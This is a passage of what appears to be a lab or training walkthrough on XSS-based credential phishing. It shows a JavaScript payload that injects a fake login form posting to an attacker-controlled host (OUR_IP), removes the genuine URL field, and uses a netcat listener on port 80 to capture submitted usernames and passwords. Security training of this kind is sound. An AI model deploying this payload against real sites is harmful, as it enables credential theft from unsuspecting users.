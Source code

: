
### Cleaning Up

To make the attack more believable, we need to remove the original input field that displays the URL field on the image viewer.

We inspect the HTML element using the developer tools and find that the input form has the ID `urlform`.

So, we write the following JavaScript to remove it:

```javascript
document.getElementById('urlform').remove();
```

We add this to our previous XSS payload, after the `document.write()` call:

```javascript
document.write('<h3>Please login to continue</h3><form action=http://OUR_IP><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');document.getElementById('urlform').remove();
```

#### Optional Cleanup

There’s still a small piece of the original HTML code left after injecting our fake login form. This can be removed by simply commenting it out with an HTML opening comment:

```html
<!--
```

We append this to the payload to make the phishing page look clean and polished.

---

### Credential Stealing

Now, we want to capture the login credentials when a victim submits the form.

#### Using Netcat

We start a basic `netcat` server to listen for requests on port 80:

```bash
sudo nc -lvnp 80
```

Then we attempt to log in using dummy credentials like:

```
username=test
password=test
```

We should see this captured in the netcat terminal:

```
GET /?username=test&password=test&submit=Login HTTP/1.1
```
